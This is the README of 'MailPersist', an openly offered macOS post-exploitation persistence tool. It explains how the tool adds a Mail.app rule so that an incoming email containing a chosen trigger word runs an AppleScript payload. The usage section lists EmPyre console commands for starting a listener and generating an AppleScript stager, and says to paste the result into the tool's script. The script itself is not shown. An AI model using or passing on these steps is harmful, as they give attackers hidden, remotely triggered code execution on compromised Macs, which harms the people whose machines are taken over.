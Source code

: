 # MailPersist - Post-exploitation script for MacOS persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word.

## INSTALL:

All dependancies are met on a default installation of MacOS.  With that said, you will likely want to use EmPyre to create your appleScript payload. 
https://github.com/adaptivethreat/EmPyre

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
